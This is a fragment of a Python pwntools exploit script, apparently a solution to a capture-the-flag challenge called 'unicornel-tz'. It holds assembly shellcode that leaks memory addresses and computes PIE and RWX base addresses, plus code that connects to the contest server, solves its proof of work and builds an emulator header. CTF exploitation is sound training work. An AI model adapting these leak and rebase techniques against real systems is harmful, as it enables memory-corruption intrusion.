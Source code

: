 ```python
        xor rbx, rbx
        xor rcx, rcx
        mov rax, 4
        int 0x80
        mov r12, rax # store leaked value at r12
        /* Print leak for debugging purposes */
        mov rbx, rax
        mov rax, 0x2
        int 0x80
    leak_shared_end:
    leak_pie_rwx:
        /* Call map_address */
        mov rbx, 0x5000
        mov rcx, 0x2000
        mov rdx, r12 # r12 is shared_buffers[0]
        sub rdx, 0x12bf0 # map to the base of area instead of to the shared_buffers[0]
        mov rax, 5
        int 0x80
        /* Store leaked pie at r11 and leaked rwx at r10 */
        mov rbx, 0x5000
        add rbx, 0x1100
        mov r11, qword ptr [rbx]
        sub r11, 0x785b20 # r11 = PIE BASE
        mov rbx, 0x5000
        add rbx, 0x0b88
        mov r10, qword ptr [rbx]
        sub r10, 0x1c2f # r10 = RWX BASE
        /* Print for debugging purposes */
        mov rbx, r11
        mov rax, 0x2
        int 0x80
        mov rbx, r10
        mov rax, 0x2
        int 0x80
    leak_pie_rwx_end:
    password:
        .ascii "sup3r_s3cure_sj\0"
    memprot_x86_64:
        .ascii "memprot_x86_64\0"''')

p = remote("unicornel-tz.2025.ctfcompetition.com", 1337)

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),          
    b'\0' * 3 * 16,              
    p16(len(code)),              
    p8(1)                        
).ljust(80, b'\0')

```